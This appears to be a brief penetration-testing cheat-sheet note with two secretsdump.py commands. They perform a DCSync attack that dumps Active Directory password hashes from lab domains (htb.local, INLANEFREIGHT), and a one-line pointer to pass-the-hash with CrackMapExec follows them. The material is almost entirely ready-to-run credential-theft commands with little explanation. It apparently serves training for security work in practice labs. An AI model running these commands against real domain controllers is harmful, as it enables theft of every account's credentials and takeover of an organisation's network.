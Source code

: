 
DCSync attack
```
./secretsdump.py htb.local/user:password@ipadd > outputfile
```

run a passthehash attack with [[Crackmapexec]]


```shell-session
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 

```
